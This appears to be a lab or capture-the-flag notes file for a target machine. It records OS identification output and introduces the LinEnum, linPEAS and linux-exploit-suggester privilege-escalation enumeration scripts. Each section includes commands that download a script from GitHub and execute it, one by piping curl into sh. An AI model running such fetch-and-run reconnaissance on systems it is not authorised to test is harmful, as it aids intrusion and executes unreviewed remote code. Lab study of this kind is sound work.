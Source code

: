 # Some notes

## Identification

```shell
cat /etc/*-release
  DISTRIB_ID=Ubuntu
  DISTRIB_RELEASE=12.04
  DISTRIB_CODENAME=precise
  DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
  NAME="Ubuntu"
  VERSION="12.04.5 LTS, Precise Pangolin"
  ID=ubuntu
  ID_LIKE=debian
  PRETTY_NAME="Ubuntu precise (12.04.5 LTS)"
  VERSION_ID="12.04"

uname -a
  Linux BornToSecHackMe 3.2.0-91-generic-pae \#129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

## LinEnum.sh

LinEnum — is a bash-script that can do all the nasty job for you making all the adjustments described here cheat sheet’e. By and large, it has about 65 different checking operations, ranging from getting an information about the kernel version to searching potentially interesting SUID/GUID files. Besides, you can send a lock world to script that it would search in the all configurations and log-files. You can launch the checking like this: ./LinEnum.sh -k keyword -r report -e /tmp/ -t. After the scanning is complete you will get a detail report where the most interesting points will be highlighted with the yellow colour.

[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh > /tmp/LinEnum.sh
chmod +x /tmp/LinEnum.sh

/tmp/LinEnum.sh -k keyword -r report -e /tmp/
```

[Report here](logs/LinEnum-export-10-12-20.html)

## linPEAS.sh

LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\* hosts. The checks are explained on book.hacktricks.xyz

Check the Local Linux Privilege Escalation checklist from [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```shell
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh > linPEAS.log
```

[Report here](logs/linPEAS.html)

## LES: Linux privilege escalation auditing tool

LES tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It provides following functionality:

- Assessing kernel exposure on publicly known exploits
- Verifying state of kernel hardening security measures

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

```shell
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
bash les.sh > les.log
```

[Report here](logs/)
